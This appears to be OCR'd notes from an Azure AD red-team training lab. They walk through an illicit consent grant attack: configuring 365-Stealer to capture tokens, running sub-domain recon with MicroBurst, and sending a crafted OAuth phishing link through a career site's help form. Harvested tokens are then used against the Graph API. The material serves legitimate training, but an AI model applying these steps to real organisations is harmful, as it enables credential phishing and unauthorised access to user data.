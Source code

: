 - We have user privilege access to the defcorphq tenant. Check if users are allowed to consent to apps.
- Use Azure Portal or the below command from the AzureAD Preview module:
```
(Get- AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAs signedToDefaultUserRole
```

- If the output of above is 'ManagePermissionGrantsForSelf.microsoft- user-default-legacy', that means users can consent for all apps!
- In a real assessment, we simply need to try to know.


### Initial Access - Illicit Consent Grant - 365 Stealer

-   Let's use 365-stealer (https://github.com/AlteredSecurity/365-Stealer) to abuse the consent grant settings!
-   Please note that the attack can be executed using the o365 toolkit (https://github.com/mdsecactivebreach/o365-attack-toolkit) as well. But due to some limitations in the lab, we are not using it.

-   Run xampp Control Panel (Run as administrator) and start Apache on the student VM.
-   Copy the '365-stealer' directory from C:\AzAD\Tools to C:\xampp\htdocs to capture tokens returned by Azure AD.
-   Using the '365-Stealer Configuration' button , configure CLIENTID, REDIRECTURL and CLIENTSECRET
-   Click on 'Run 365-Stealer' to run the tool.
-   Browse to https://localhost using an incognito window and click on 'Read More' in the web page. This gives you the phishing link that is to be sent to the target.

#### Initial Access - Illicit Consent Grant

-  We need to find a way to send the link to targets. We can abuse applications that allow us to contact users in the target organization.
-  We can find applications running on the defcorphq tenant by sub-domain recon.
-  Use MicroBurst to find the applications. We can add permutations like career, hr, users, file, backup to the permuations.txt used by MicroBurst etc.

```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

-  We can also assume that the https://defcorphqcareer.azurewebsites.net application is known as a contractor may have some existing knowledge of the target.


-  Using the 'Need Help' section of the career application running on defcorphq, send the phishing link. https://login.microsoftonline.com/common/oauth2/authorize?response_type=code&client_id=dd84e18a-4b33-45c8-b36c-41ccb4624802&scope=https://graph.microsoft.com/.default+openid+offline_access+&redirect_uri=https://172.16.151.X/login/authorized&response_mode=query&sso_reload=true


-   Wait for couple of minutes and browse to http://localhost:82/365-Stealer/yourvictims/ on the attacking machine to get tokens for victims who click on the phishing link.
-   Use the access token with the Graph API to list other users in the tenant.
-   Note that only the permissions that we requested earlier are available with the access token.
We can list all the users thanks to User.ReadBasic.All

```
$Token = 'eyJ0eXAiOiJK...'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{ Method = 'GET' Uri    = $URI Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```
